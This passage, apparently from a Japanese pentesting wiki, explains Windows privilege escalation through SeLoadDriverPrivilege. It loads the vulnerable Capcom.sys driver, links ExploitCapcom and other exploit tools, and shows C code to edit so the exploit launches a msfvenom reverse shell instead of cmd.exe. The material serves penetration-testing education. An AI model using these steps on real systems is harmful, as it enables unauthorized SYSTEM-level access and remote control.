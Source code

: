 上記のコードがコンパイルされ、実行されると、悪意のある `Capcom.sys` ドライバが被害者のシステムにロードされることがわかります：

![](../../../.gitbook/assets/a11.png)

ダウンロード：[Capcom.sys - 10KB](https://firebasestorage.googleapis.com/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-LTyWsUdKa48PyMRyZ4I%2F-LTyZ9IkoofuWRxlNpUG%2FCapcom.sys?alt=media\&token=e4417fb3-f2fd-42ef-9000-d410bc6ceb54)

**今度はロードされたドライバを悪用して任意のコードを実行します。**

[https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom) と [https://github.com/zerosum0x0/puppetstrings](https://github.com/zerosum0x0/puppetstrings) からエクスプロイトをダウンロードし、システム上で実行して特権を `NT Authority\System` に昇格させることができます：

![](../../../.gitbook/assets/a12.png)

### GUI なし

ターゲットには **GUI アクセスがない** 場合、コンパイル前に **`ExploitCapcom.cpp`** コードを変更する必要があります。ここでは、292行を編集し、`C:\\Windows\\system32\\cmd.exe"` を、例えば `msfvenom` で作成した逆シェルバイナリ（例：`c:\ProgramData\revshell.exe`）に置き換えることができます。

コード：c
```c
// Launches a command shell process
static bool LaunchShell()
{
TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
PROCESS_INFORMATION ProcessInfo;
STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
&ProcessInfo))
{
return false;
}

CloseHandle(ProcessInfo.hThread);
CloseHandle(ProcessInfo.hProcess);
return true;
}
```
この例の`CommandLine`文字列は次のように変更されます：

コード：c
```c
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```
私たちは、生成した`msfvenom`ペイロードに基づいてリスナーを設定し、`ExploitCapcom.exe`を実行すると、逆シェル接続が受信されることを期待しています。逆シェル接続が何らかの理由でブロックされている場合は、バインドシェルまたはexec/addユーザーペイロードを試すことができます。

### 自動

[https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/)を使用して、特権を**自動的に有効化**し、HKEY\_CURRENT\_USERの下に**レジストリキー**を**作成**し、作成するレジストリキーとドライバのパスを指定してNTLoadDriverを実行することができます。

